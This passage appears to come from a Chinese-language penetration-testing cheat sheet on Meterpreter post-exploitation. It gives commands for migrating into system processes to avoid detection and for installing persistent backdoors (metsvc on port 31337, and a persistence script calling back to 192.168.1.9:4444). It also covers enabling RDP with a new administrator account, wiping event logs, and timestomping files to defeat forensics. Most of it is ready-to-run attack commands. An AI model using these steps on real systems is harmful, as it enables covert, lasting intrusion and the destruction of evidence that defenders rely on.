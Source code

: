 **进程迁移**

当 meterpreter 单独作为一个进程运行时容易被发现,如果将它和系统经常运行的进程进行绑定,就能够实现持久化。
```bash
getpid  # 查看当前会话的进程 id
ps  # 查看目标运行的进程
migrate pid # 绑定/迁移进程
```

**后门**

Meterpreter 的 shell 运行在内存中,目标重启就会失效,如果管理员给系统打上补丁,那么就没办法再次使用 exploit 获取权限,所以需要持久的后门对目标进行控制

- **metsvc**
    ```bash
    run metsvc
    # 命令运行成功后会在 C:WindowsTEMP 目录下新建随机名称的文件夹,里面生成3个文件(metsvc.dll、metsvc-server.exe、metsvc.exe)
    # 同时会新建一个服务,显示名称为 Meterpreter,服务名称为 metsvc,启动类型为"自动",绑定在 31337 端口。

    use exploit/multi/handler
    set payload windows/metsvc_bind_tcp
    set rhost xxx.xxx.xxx.xxx
    set lport 31337
    ```

- **persistence**
    ```bash
    run persistence -X -i 10 -r 192.168.1.9 -p 4444
    -A：安装后门后,自动启动 exploit/multi/handler 模块连接后门
    -L：自启动脚本的路径,默认为 %TEMP%
    -P：需要使用的 payload,默认为 windows/meterpreter/reverse_tcp
    -S：作为一个服务在系统启动时运行(需要 SYSTEM 权限)
    -T：要使用的备用可执行模板
    -U：用户登陆时运行
    -X：系统启动时运行
    -i：后门每隔多少秒尝试连接服务端
    -p：服务端监听的端口
    -r：服务端 ip
    ```

**RDP**
```bash
run post/windows/manage/enable_rdp  # 开启 3389 远程桌面；
run post/windows/manage/enable_rdp username=xxx password=xxx    # 添加远程桌面的用户(同时也会将该用户添加到管理员组)
```

### 痕迹清除
```bash
clearev # 入侵痕迹擦除
```

**反电子取证**
```bash
timestomp -v secist.txt # 查看当前目标文件 MACE 时间。
timestomp -f c:\\AVScanner.ini secist.txt   # 将模板文件 MACE 时间，复制给当前文件
timestomp -v secist.txt
```
